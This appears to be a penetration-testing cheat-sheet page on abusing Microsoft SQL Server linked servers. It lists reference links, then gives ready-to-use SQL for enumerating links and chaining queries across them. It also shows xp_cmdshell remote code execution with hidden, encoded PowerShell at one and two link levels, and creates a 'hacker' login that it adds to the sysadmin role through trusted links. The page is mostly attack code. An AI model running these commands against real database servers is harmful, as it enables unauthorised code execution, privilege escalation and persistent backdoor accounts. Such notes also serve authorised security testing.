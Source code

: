## Linked Servers

\* Enum linked servers until we get access to a sysadmin user.

{% code overflow="wrap" fullWidth="true" %}
```bash
https://www.netspi.com/blog/technical-blog/network-pentesting/how-to-hack-database-links-in-sql-server/
https://www.hackingarticles.in/mssql-for-pentester-abusing-linked-database/
https://www.tarlogic.com/blog/linked-servers-adsi-passwords/
https://www.helpnetsecurity.com/2025/01/17/mssqlpwner-open-source-pentesting-mssql-servers/
https://mayfly277.github.io/posts/GOADv2-pwning-part7/
https://exploit-notes.hdks.org/exploit/database/mssql-pentesting/

select srvname, isremote from sysservers;
# isremote column determines if a server is linked or not
# 1 -> remote server // 0 -> linked server

# The EXEC statement can be used to execute queries on linked servers. Let's ﬁnd out the user in whose context we are able to query the linked server.
EXEC ('select current_user') at [SERVER\LINK]; 
# 2 links depth
EXEC ('EXEC (''select suser_name()'') at [SERVER\LINK2]') at [SERVER/LINK1];
'

enum_links
use_link "HOST\LINK"
# Traverse different links (like concatenation of them) and check your user permission every time we use a new link
select * from fn_my_permissions(null, 'server');


select * from master..sysservers;
EXEC sp_linkedservers;
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
Check where double and single quotes are used, it's important to use them that way.
# First level RCE
SELECT * FROM OPENQUERY("<computer>", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc blah''')
# Second level RCE
SELECT * FROM OPENQUERY("<computer1>", 'select * from openquery("<computer2>", ''select @@servername; exec xp_cmdshell ''''powershell -enc blah'''''')')
You can also abuse trusted links using EXECUTE:
#Create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```
{% endcode %}

## Read files / executing scripts as other users  (Python and R)
